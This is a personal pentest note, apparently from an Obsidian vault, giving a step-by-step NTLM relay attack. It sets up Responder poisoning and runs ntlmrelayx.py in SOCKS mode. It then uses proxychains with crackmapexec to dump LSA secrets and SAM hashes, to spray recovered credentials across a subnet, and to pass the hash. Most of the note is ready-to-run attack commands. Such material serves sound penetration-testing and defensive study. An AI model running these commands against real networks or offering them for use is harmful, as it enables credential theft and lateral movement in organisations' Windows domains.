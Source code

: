 ```yaml
---
creation date: September 8th 2022
last modified date: September 8th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[ntlmrelayx.py]]  
___

## Socks Proxy Relaying

Configure Responder with `SMB` and `HTTP` turned off in `/etc/responder/Responder.conf`

``````
[Responder Core]

; Servers to start
SQL = On
SMB = Off
RDP = On 
Kerberos = On
FTP = On 
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On  
LDAP = On
``````

````
sudo responder -I eth0 -w
````


Make sure /etc/proxychains.conf is configured to use port 1080


``````

sudo python3 ntlmrelayx.py -tf ~/Desktop/targets -socks -smb2support

``````

^a8df20

type `socks` into our relay prompt to see the active connections available.

Look for a connection that has AdminStatus set to true.

Use proxychains with crackmapexec to use these sessions. The password we provide is arbitrary since the SOCKS proxy is going to use the session we gained from relaying auth previously. The IP and user should come from the output of running socks in ntlmrelayx.py.

`proxychains cme smb 10.1.1.206 -u user -p pass -d Domain --lsa

Using the --lsa will dump hashes and clear text passwords from registry secrets. Using --sam will obtain local account hashes.

Validate any clear text passwords or hashes that were cracked work using crackmapexec. 

`proxychains cme smb 10.1.1.1/24 -u user -p pass -d Domain


You can also passthehash with crackmapexec.


`proxychains cme smb 10.1.1.1/24 -u user -H hashgoeshere -d Domain


You can use bloodhound to see if those accounts have local admin on any other machine and dump lsa and sam from them. 

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 8th 2022 (10:12 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
